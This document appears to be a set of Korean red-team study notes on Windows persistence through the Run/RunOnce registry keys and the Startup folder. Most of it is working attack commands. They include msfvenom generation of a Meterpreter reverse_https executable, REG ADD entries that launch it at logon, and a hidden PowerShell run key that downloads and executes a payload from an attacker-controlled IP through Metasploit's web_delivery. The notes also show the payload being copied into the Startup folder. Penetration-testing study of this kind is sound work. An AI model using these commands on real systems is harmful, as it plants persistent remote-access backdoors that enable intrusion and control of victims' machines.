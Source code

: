 # 레지스트리 / 스타트업 폴더

### 레지스트리&#x20;

윈도우의 레지스트리 키 들 중 다음의 키 들은 유저가 로그인 할 시 자동적으로 특정 프로그램/명령어를 실행한다.&#x20;

1. `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
2. `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
3. `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
4. `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

### 실습&#x20;

레지스트리 키에 원하는 프로그램을 등록시키거나 `cmd.exe /c` 혹은 `powershell -enc -command` 등의 플래그를 이용해 명령어를 실행시키면 된다. 레지스트리 키 추가는 다음의 명령어를 이용한다.&#x20;

```
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d <프로그램-경로>
```



#### 레지스트리 + 온디스크 미터프리터&#x20;

```
# 1. 미터프리터 생성 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.40.182 lport=8443 -f exe -o rev.exe

# 2. 리버스쉘을 c:\wow 에 옮기기 

# 3. 타겟의 레지스트리 키 변경 
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d <프로그램-경>

PS C:\Users\Administrator.CHOI> REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v safestartup /t REG_SZ /d C:\wow\rev.exe
The operation completed successfully.

# 4. 로그오프 후 다시 로그인 -> 리버스쉘 확인 
```

![](<../.gitbook/assets/image (16).png>)

#### 레지스트리 + 인메모리 파워쉘 미터프리터&#x20;

* 파워쉘을 이용한 인메모리 실행을 위해서는 `iex (new-object net.webclient).downloadstring()` 을 이용한다.&#x20;
* 레지스트리 키의 길이 제한은 255자이기 때문에 이에 유의해 레지스트리 키를 생성한다.&#x20;

```
# 1. 메타스플로잇 설정 
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_https
set lhost <ip>
set lport <port>
exploit

# 2. 타겟의 레지스트리 키 변경 - 메타스플로잇의 파워쉘 원라이너 사용 
# #1 번에서 나온 "[*] Using URL: http://192.168.40.182:8080/XXzjZN0FVh" 사용 
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d "<프로그램-경로>"

REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v pshstartup /t REG_SZ /d "c:\windows\system32\windowspowershell\v1.0\powershell.exe -nop -w hidden iex(New-Object net.webclient).DownloadString('http://192.168.40.182:8080/XXzjZN0FVh')"

# 3. 로그오프 -> 로그인 후 리버스쉘 확인 
```

![](<../.gitbook/assets/image (5).png>)



### 스타트업 폴더&#x20;

스타트업 폴더는 유저가 로그인 해 세션을 구축할 시 폴더 안의 프로그램을 자동으로 실행시킨다. 공격자들은 스타트업 폴더를 이용해 매번 유저가 로그인 할 때마다 비컨/리버스쉘을 받는 등의 지속성 공격을 실행할 수 있다.&#x20;

스타트업 폴더의 경로는 다음과 같다:&#x20;

* `유저: C:\Users\<유저>\Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\StartUp`&#x20;
* `시스템: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

로컬 관리자 권한을 갖고 있다면 시스템 스타트업 폴더를 이용할 수 있다. 여기서 실행되는 프로세스들은 어떤 유저가 로그인 하던간에 실행된다.&#x20;

### 실습&#x20;

미터프리터를 생성한 뒤, 타겟 호스트의 스타트업 폴더에 미터프리터 파일을 옮긴다. 그 후 로그오프 -> 로그인을 해서 리버스쉘이 도착하는지 확인한다.&#x20;

```
# 1. 미터프리터 생성 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.40.182 lport=8443 -f exe -o rev.exe

# 2. 미터프리터 타겟 호스트로 전송 

# 3. 타겟 호스트에서 미터프리터를 스타트업 폴더로 복사 
cp <미터프리터 경로> 'C:\Users\<유저-이름>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'

4. 로그오프 -> 로그인 후 리버스쉘 확인 
```

### 레퍼런스&#x20;

{% embed url="https://www.elastic.co/guide/en/security/current/startup-folder-persistence-via-unsigned-process.html" %}

{% embed url="https://labs.withsecure.com/blog/attack-detection-fundamentals-code-execution-and-persistence-lab-2/" %}

{% embed url="https://dmcxblue.gitbook.io/red-team-notes/persistence/registry-keys-startup-folder" %}

<details>

<summary>추가 리서치 - todo </summary>

```
다음 레지스트리 키 들은 스타트업 폴더의 경로를 바꿀 수 있다. 윈도우의 기본 스타트업 폴더 경로가 아니라 다른 폴더 경로를 스타트업 폴더로 바꾸고 싶을 때 이 레지스트리에 값들을 추가한다.
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

</details>
